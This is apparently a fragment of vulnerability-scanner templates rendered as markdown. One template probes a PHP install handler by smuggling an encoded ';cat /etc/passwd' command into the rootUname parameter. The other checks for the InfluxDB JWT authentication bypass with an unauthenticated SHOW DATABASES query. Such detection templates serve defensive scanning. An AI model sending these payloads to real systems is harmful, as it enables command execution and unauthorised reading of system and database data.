 - Method - GET

### URL

- {{BaseURL}}/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=%3b%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%20%23

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# Authentication Bypass InfluxDB

## Description

- InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret).
- severity - critical
- tags - unauth,db,influxdb,misconfig

## Requests

- Method - GET

### URL

- {{BaseURL}}/query?db=db&q=SHOW%20DATABASES

### Matchers

**Type - word**

- part - body
- words
  1. "results":
  2. "name":"databases"
- condition - and

**Type - status**

- status
  1. 200

---
